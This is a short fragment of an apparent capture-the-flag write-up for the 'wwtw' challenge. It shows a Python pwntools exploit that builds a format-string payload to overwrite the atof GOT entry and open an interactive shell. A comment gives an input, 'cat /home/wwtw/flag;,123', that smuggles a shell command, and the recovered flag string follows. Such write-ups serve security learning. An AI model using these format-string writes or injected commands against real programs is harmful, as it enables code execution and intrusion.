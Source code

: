 ```python
fmt2 = byte2 - fmt1 - 28
payload = pass_xy
payload += "A"
payload += p32(atof_got)
payload += p32(atof_got+1)
payload += "%"+str(fmt1)+"c"+"%20$hhn"
payload += "%"+str(fmt2)+"c%21$hn"
t.sendline(payload)
s = t.recvuntil("Coordinates: ")
print s

t.interactive()
# send cat /home/wwtw/flag;,123 to get flag

```

Flag: `Would you like a Jelly Baby? !@()*ASF)9UW$askjal`
